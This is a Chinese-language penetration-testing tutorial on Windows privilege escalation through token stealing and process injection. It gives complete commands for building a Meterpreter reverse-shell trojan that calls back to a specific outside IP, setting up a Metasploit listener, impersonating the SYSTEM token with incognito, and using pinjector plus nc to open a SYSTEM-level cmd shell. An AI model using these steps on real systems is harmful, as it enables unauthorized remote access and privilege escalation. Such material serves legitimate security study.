







# 令牌窃取与进程注入


## 令牌窃取

原理：进行**远程过程调用**时**请求提升权限**，然后调**用它从而生成特权安全令牌**以执行**特权操作**。当系统允许令牌不仅用于进程本身，还用于**原始请求进程**时，漏洞就会出现。

令牌窃取的基本流程：**获取会话-利用模块-窃取令牌-提权**

令牌窃取方式在Windows2008之后的高版本操作系统已经没用了，只能用于一些低版本系统。比如

- Microsoft Windows XP Professional SP3和之前版本
- Windows Server 2003 SP2和之前的版本
- Windows Server 2003 x64和x64 SP2
- Windows Server 2003 (用于基于Itanium的系统SP2和先前版本)
- Windows Server 2008 x32 x64
- Windows Server 2008 (用于基于Itanium的系统)
- Windows Vista SP1和之前的版本
- Windows Vista x64 SP1和之前的版本

操作：

在msf服务器上执行以下命令，生成反弹shell木马。

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=8.130.73.157 lport=4848 -f exe -o xx.exe
```



在msf中设置监听反弹的shell，监听端口。

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
show options
set lhost 0.0.0.0
set lport 6677
show options
exploit
```



将该木马xx.exe，上传到远程目标服务器，并运行木马程序。

本地监听到会话，查看权限为管理员权限Administrator。

行以下命令，利用模块，窃取令牌，提权成功。

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```



获取到System权限。

## 进程注入

**Windows2003&10进程注入提升-本地**

进程注入提权是本地提权方式的一种较为老的安全技术了，利用的是注入进程的所有者实现权限共享机制，这类技术主要利用在Windows2008之前操作系统上。

核心就是窃取进程的权限（有一些进程有system权限）。

使用pinjector工具进行注入

将pinjector工具上传到目标服务器，运行以下命令：

```shell
pinjector.exe // 运行命令，查看用法
pinjector.exe -l // 列出可注入的进程
pinjector.exe -p pid cmd 6688 // 注入到系统正常的服务里，监听6688端口（一定要注入system权限的进程）
```



添加参数 `-L`参数获取当前计算机的进程列表（列出可以注入的进程） 。



注入412进程，在本地开放6688端口，将6688端口映射到cmd上，只要连接到这个靶机的6688端口，就可以以系统用户打开cmd。



```shell
nc 靶机的IP 6688 # 监听6688端口，成功反弹shell，成功提权
```


